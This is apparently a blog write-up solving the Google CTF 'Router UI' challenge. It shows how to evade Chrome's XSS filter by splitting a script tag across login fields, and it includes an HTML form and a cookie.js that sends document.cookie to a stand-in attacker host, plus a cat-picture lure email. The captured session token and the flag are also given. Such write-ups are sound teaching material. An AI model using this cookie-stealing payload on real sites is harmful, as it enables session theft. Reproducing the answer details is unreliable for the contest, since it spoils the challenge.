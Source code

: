 ```yaml
---
layout: post
title: 'Google CTF: Beginners Quest - Router UI'
page-id: post
tags: [write-up]
---
```


> Using the domain found on the hardened aluminum key, you make your way on to the OffHub router. A revolutionary device that simplifies your life. You're at the UI page, but attempting to brute force the password failed miserably. If we could find an XSS on the page then we could use it to steal the root user session token. In case you find something, try to send an email to wintermuted@googlegroups.com. If you claim your link includes cat pictures, I'm sure Wintermuted will click it. I hope Chrome's XSS filter will not block the exploit though.
>
> https://router-ui.web.ctfcompetition.com/

In this challenge, we are shown a login form and need to find a way to steal the session token from the root user. We're given a hint about finding XSS somewhere on the page, but Chrome's XSS filter makes this a bit more difficult. Once we find a way to bypass this filter, we can send off an email to the root user containing a link and hope that they'll click it. From the challenge description, if we say the link has cat pictures, there's a good chance they'll do exactly that.

You can see the XSS filter in action by inputting something like `<script>alert('XSS');</script>` in one of the fields and submitting it. You should get an `ERR_BLOCKED_BY_XSS_AUDITOR` error. If we put some legit values, let's say `user` and `password`, into the login form and submit it, we're shown a page that states

`Wrong credentials: user//password`

Something of note here is that `//` is being used to separate the username and password. We can use this to our advantage to bypass Chrome's XSS filter. In particular, we'll use the `//` to help us craft a URL. To show what I mean, go back to the login form and set the username to `http:` and the password to `example.com` and then submit it.

`Wrong credentials: http://example.com`

BOOM! We can craft ourselves a URL. This by itself isn't all that useful. But we can take advantage of this by inputting a script into this field that loads a JS file, hosted by us, that will send the user's cookie to us. The script we'll end up using looks something like this:

`<script src="https://yourwebsite.com/cookie.js"></script>`

But of course, we can't just pass that into the form, we'll trigger the XSS filter. But by splitting it between the username and password fields as we did earlier, we can execute our own scripts. Here are the values we'll be using:

`username = <script src="https:`

`password = yourwebsite.com/cookie.js"></script>`

We have a way to attack the root user, now we just need them to submit a form with these values in it. To accomplish this, we'll first need to set up a website that handles this. Then we can email the link to them in hopes they'll click it.

NOTE: The website must have an SSL certificate. An easy way to do this is to use [Heroku](https://heroku.com/) to host the website.

We only need two files for this, a `js` and `html` file. The Javascript file's only job is to redirect the user to a URL and pass along their cookies. The HTML file will contain an exact copy of the login form located on the challenges page. Our form will submit the values of the `username` and `password` fields, set to our payload above, to the login form on `https://router-ui.web.ctfcompetition.com/login`. When submitted, our script will be loaded, thus sending the user's cookies to us.

`index.html`
```html
<html>
    <head></head>
    <body>
        <form name="login" class="form-signin" action="https://router-ui.web.ctfcompetition.com/login" method="post">
            <h1 class="h3 mb-3 font-weight-normal">OffHub Management Interface</h1>
            <input type="text" name="username" class="form-control" placeholder="username" value="<script src='https:">
            <input type="password" name="password" class="form-control" placeholder="password" value="yourwebsite.com/cookie.js'></script>">
            <button class="btn btn-block" type="submit">Sign in</button>
        </form>
    </body>
</html>
```

`cookie.js`
```javascript
document.location = 'https://yourwebsite.com/cookie.html?' + document.cookie;
```

Our Javascript file is sending the user to a nonexistent page, which is fine since the request will be logged, allowing us to view the cookies being passed with it.

With the website set up, all we have to do now is send an email to `wintermuted@googlegroups.com` containing a link to `https://yourwebsite.com`. To play along with the challenge description, we should also set the subject line of the email to `Cat Pictures`.

Once the email is sent off, you should receive a confirmation within a few seconds. Watch your server logs and you'll see a request was made that includes some cookies. It'll look something like

`GET /cookie.html?flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja HTTP/1.1`

Looks as if the root user had two cookies:

`flag=Try the session cookie`

`session=Avaev8thDieM6Quauoh2TuDeaez9Weja`

If we enter these cookies into our browser and navigate to `https://router-ui.web.ctfcompetition.com/`, we'll be greeted with the dashboard. On this page, the first thing that jumps out at me are the two credential fields. If we look at either one of those values, we can see it contains the flag: `CTF{Kao4pheitot7Ahmu}`.